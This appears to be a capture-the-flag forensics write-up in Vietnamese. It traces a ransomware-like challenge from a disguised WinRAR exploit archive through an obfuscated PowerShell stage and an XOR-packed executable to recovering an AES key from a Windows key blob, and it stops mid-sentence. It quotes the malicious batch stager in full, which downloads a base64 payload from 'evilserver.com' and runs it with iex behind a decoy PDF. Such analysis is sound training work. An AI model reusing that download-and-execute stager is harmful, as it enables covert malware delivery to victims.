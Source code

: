Chall : https://drive.google.com/file/d/1A6PQX4KitPRWyPzkN-8TVUZpShLzK2mD/view?usp=drive_link

Description: I received an email from an unidentified sender who described an intriguing world. Intrigued by their narrative, I followed the link in the email, downloaded a file, and attempted to open it. To my surprise, my essential documents were suddenly encrypted. I'm now in need of assistance to recover them.


----
Đề cho 1 file zip, chỉ cần mở ra nhìn đã dễ dàng nhận ra là con CVE winrar khá nổi gần đây :v, nhưng đã đổi thành zip extension. Mình sẽ vào folder bên trong và extract thẳng con bat file ra. Nội dung file bat:

```
@echo off
setlocal
set "ServerURL=http://evilserver.com:8080/useless.png"
for /f "delims=" %%i in ('curl -s -X GET "%ServerURL%"') do set response=%%i
powershell "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('%response%')) | iex"
Pancham.pdf
endlocal
```

Nó sẽ tải xuống useless.png, decode ra và iex để thực thi, sau đó pop up pdf để đánh lừa.

Decode nội dung và ta có được 1 script powershell bị obfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/1cacee44-d0a4-4075-9885-7076907e464e)

Mình dùng `PSDecode` để deobfuscate:

![image](https://github.com/NVex0/uWU/assets/113530029/842a0cb0-af31-4775-b9d6-1cd997c9d25e)

Code này sẽ thực hiện tải xuống con panpan.exe, mở file `final report` làm key xor và xor với các bytes trong panpan.exe (từ bytes thứ 1024, size xor là 31488). Sau khi xor thì sẽ thực thi con exe đầu ra.

Tuy nhiên ta không có file `final report`, mình ngồi thử với các header của file docx, pdf,....nhưng không khả quan. Nên khi mình load vào `pebear` cùng 1 vài sample PE 64 bit khác, mình để ý:

![image](https://github.com/NVex0/uWU/assets/113530029/61bdf04f-ae23-4596-9d66-749b23b84977)

Phần entry point của file này bắt đầu bằng 5 bytes 0, khá lạ, trong khi các file khác thì đều bắt đầu với dãy `48 83 EC 28 E8 F7 04 00 00 48 83 C4 28 E9 72 FE FF FF CC CC 40 53 48 83 EC 20 48 8B D9 33 C9 FF 15 BB 56 01 00 48 8B CB FF 15 AA 56 01 00 FF 15`, mình đem đi xor thử:

![image](https://github.com/NVex0/uWU/assets/113530029/07075e86-fee5-4a20-8c38-3dc7c254b054)

Để ý thấy `\x48\x83\xec\x28\xe8` lặp lại rất nhiều lần, mình đoán chắc rằng đây là xor key, mình xor thẳng lại với panpan.exe:

```
with open('PanCham.exe', 'rb') as f:
    fileb = f.read()

key = b"\x48\x83\xec\x28\xe8"
offset = 1024
size = 31488

with open("final.exe", "wb") as f:
    for i in range(len(fileb)):
        if i in range(offset, offset + size):
            f.write((fileb[i] ^ key[i % len(key)]).to_bytes(1, byteorder='big'))
        else:
            f.write(fileb[i].to_bytes(1, byteorder='big'))
```

Và load được vào ida mà không bị lỗi :v Nice. Mình tìm đến hàm main:

![image](https://github.com/NVex0/uWU/assets/113530029/59ee015a-6dd1-4eaf-b416-4d35c7c65b5c)

Sau 1 khoảng thời gian rất lâu đọc code:v, mình hiểu nó thực thi như sau:

1. GET data từ root của evilserver, sau đó dùng 1 hàm để decode base64. Data này dễ dàng thấy trong tcp stream 7.

2. xor decoded data ở trên với 8 bytes lấy từ file `version.txt`.

3. Dùng kết quả xor này, sẽ dùng để tạo key, iv,....các thứ, sau đó encrypt ảnh SensitiveData.png lại.

Vì không có file version.txt, ta buộc phải tự tìm lại key. Mình để ý tới hàm `CryptImportKey`, như bước thứ 3 mình nếu trên, kết quả của xor chính là dùng trong hàm này. hàm này sẽ phải khởi tạo PUBLICKEYSTRUC BLOB header trước, xong mới đến các thông tin khác. Dựa vào Blob, mình sẽ retrieve lại key như này:

+ Đầu tiên là 1 byte key blob type. Theo doc của microsoft, key blob type có 8 loại. Cái này mình sẽ bruteforce vì mình không biết key là loại nào.

+ Tiếp đến là 1 byte version, mà theo mình đọc thì nó thường được set = 0x02:

![image](https://github.com/NVex0/uWU/assets/113530029/ce8bdf12-a75b-4ef0-bfef-d79a1e181c70)

+ 2 bytes reversed, theo như doc của microsoft thì `must be set to zero`, vậy là mình có 0000.

+ Tiếp là 4 bytes ALG_ID lưu dưới dạng little endian, như đã nói trên, ở dưới mình thấy có hàm `CryptSetKeyParam` set các giá trị như cipher mode, padding mode, iv các thứ. Từ đó mình đoán rằng mã hóa này là AES, nhưng key length không rõ, nên mình sẽ thử ALG_ID của tất cả các loại length AES.

Mình brute thử key, trong quá trình brute mình để ý toàn bộ key đều là ASCII hết:

![image](https://github.com/NVex0/uWU/assets/113530029/c1804390-86c3-4ff1-a237-5798e6659c14)

Từ đó mình rút ra type sẽ là `PLAINTEXTKEYBLOB`, tức byte đầu = 0x08.

Rút ngắn phạm vi :v, vì là ASCII hết nên mình in thẳng char và được 4 key còn lại như này:

![image](https://github.com/NVex0/uWU/assets/113530029/e419ca64-3494-4173-a11c-a5895e968aa1)

:)) Key đầu hơi hơi meaningful, hợp lý hóa hơn thì nó là key tương ứng với ALG_ID của AES_256, đúng ý mình. Mình sẽ thử với xorkey này luôn.

Sau khi xor mình được pbData mới sẽ là : `0802000010660000200000009d0e0433bf40f4141a030f2d8effa8b88c7e56cc459cb7bad982879478b18e53c5bb3a7478ba51be09b9e8f6892fabb3`

> Mình tìm cả ngày cũng không hiểu đoạn thừa `20000000` sau bo
